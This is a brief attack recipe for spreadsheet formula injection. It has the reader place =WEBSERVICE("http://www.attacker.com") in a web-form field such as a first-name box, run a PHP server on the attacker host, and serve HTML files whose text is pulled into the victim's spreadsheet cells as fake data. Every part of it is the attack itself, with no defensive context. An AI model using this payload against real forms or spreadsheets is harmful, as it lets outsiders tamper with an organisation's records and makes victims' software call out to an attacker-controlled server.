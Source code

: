 Use Webservice Formula to Inject fake data into Speadsheet
----------------------------------------------------------
#In cell "A1" enter the following - Could be "First Name" in web form
=WEBSERVICE("http://www.attacker.com")

#Run attacking server 
php -S www.attacker.com:80

# On attacking server create "index.html" with content you want to change the "fake data" too.
############ Begin index.html ##################################
Fake Data
############ End index.html ####################################

# To fill in multiple cells use multiple html file
############ Begin a1.html ##################################
Fake
############ End a1.html ####################################
############ Begin a2.html ##################################
Data
############ End a2.html ####################################



